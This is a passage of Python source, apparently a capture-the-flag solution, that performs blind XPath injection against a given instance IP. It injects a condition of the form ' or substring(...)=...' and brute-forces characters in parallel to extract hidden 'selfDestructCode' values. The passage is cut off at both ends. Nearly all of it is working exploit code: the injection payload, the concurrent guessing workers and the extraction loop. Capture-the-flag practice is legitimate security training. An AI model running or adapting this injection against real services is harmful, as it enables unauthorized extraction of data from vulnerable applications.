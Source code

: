 ```py
        asyncio.set_event_loop(loop)
        return loop.run_until_complete(coro)
    finally:
        loop.close()


async def test_char(ip, query, char_ind, c):
    quote = '"' if c == "'" else "'"
    quoted_char = f"{quote}{c}{quote}"
    r = await employee_exists(
        ip, f"' or substring({query},{char_ind},1)={quoted_char} or 'a'='b"
    )
    # print(f"Char {c} {r}")
    return (
        c,
        r,
    )


async def brute_char(ip, query, char_ind):
    workers = cpu_count()
    # Batch up work so we don't guess after we've already found the solution
    work = list(string.printable[:-5])
    with ThreadPoolExecutor(max_workers=workers) as pool:
        loop = asyncio.get_event_loop()

        while len(work):
            futures = []
            batch = work[:workers]
            work = work[workers:]
            for c in batch:
                futures.append(
                    loop.run_in_executor(pool, run, test_char, ip, query, char_ind, c)
                )

            for coro in asyncio.as_completed(futures):
                c, r = await coro
                if r:
                    return c
    raise ValueError("char not found")


async def main():
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <instanceIp>", file=sys.stderr)
        sys.exit(1)
        return
    ip = sys.argv[1]

    # num_destruct_codes = 2
    print(f"[*] Finding destruct code count...")
    num_destruct_codes = await brute_int_val(ip, "count(//selfDestructCode)")
    print(f"\n[*] There are {num_destruct_codes} destruct codes")

    flag = []
    for code_num in range(1, num_destruct_codes + 1):  # xpath is 1-based
        print(f"[*] Getting string length of code {code_num}")
        q = f"(//selfDestructCode)[{code_num}]"
        l = await brute_int_val(ip, f"string-length({q})")
        print(f"\n[*] Got string length of code {code_num}: {l}")

        for c in range(1, l + 1):
            print(f"[*] Getting char {c} of destruct code {code_num}")
```